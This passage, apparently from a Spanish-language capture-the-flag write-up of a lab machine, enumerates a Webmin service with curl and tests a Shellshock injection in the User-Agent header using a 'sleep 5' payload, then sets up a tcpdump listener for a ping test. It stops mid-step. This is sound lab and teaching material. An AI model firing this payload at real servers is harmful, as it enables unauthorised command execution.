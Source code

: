 ```shell
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast qlen 1000
    link/ether 00:50:56:b9:1d:bb brd ff:ff:ff:ff:ff:ff
    inet 10.10.10.7/24 brd 10.10.10.255 scope global eth0
[root@beep ~]#
```

# Webmin - TCP 10000

Webmin está alojado en el puerto TCP 10000 con SSL:

```shell
❯ curl -Isk "http://10.10.10.7:10000/"
HTTP/1.0 200 Bad Request
Server: MiniServ/1.570
Date: Wed, 22 Dec 2021 23:33:57 GMT
Content-type: text/html; Charset=iso-8859-1
Connection: close

❯ curl -Isk "https://10.10.10.7:10000/"
HTTP/1.0 200 Document follows
Date: Wed, 22 Dec 2021 23:34:04 GMT
Server: MiniServ/1.570
Connection: close
Set-Cookie: testing=1; path=/; secure
pragma: no-cache
Expires: Thu, 1 Jan 1970 00:00:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Cache-Control: post-check=0, pre-check=0
Content-type: text/html; Charset=iso-8859-1
```

Webmin es una interfaz web para gestionar sistemas Unix.

## Shellshock [Path #3]

Cada vez que hay CGI o un Script en una aplicación web, es bueno intentar probar ShellShock. Para probarlo, abriré burpsuite y enviaré la petición de inicio de sesión a Repeater y reemplazaré la cabecera User-Agent con la cadena del exploit Shellshock ``() { :; };[cmd]``, comenzando con un sleep de 5 segundos:

```http
User-Agent: () { :; };sleep 5
```

Si recibimos una respuesta en 5 segundos entonces funciona y eso confirmará que es vulnerable a shellshock. Vamos a intentar hacer un ping a nosotros mismos.

Configurar un oyente/listener en ICMP:

```shell
sudo tcpdump -ni tun0 icmp
```

Crea una única petición de ping con `-c 1`:
